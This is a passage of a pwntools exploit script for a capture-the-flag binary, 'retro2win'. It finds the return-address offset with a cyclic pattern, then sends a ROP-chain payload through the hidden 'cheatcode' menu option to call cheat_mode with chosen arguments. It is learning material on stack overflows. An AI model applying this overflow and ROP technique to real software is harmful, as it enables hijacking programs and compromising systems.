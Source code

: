 ```python
    p.sendlineafter(b'Select an option:', b'1337')
    p.sendlineafter(b'cheatcode:', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('Located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './retro2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(64))

# Start program
io = start()

# Navigate through the menu to reach the cheat code entry
io.sendlineafter(b'Select an option:', b'1337')  # Enter hidden option

# ROP object
rop = ROP(elf)
rop.cheat_mode(0x2323232323232323, 0x4242424242424242)

# Build the payload
payload = flat({
    offset: [rop.chain()]
})

pprint(rop.dump())

# Send the payload
io.sendlineafter(b'cheatcode:', payload)

# Get flag
io.interactive()
```
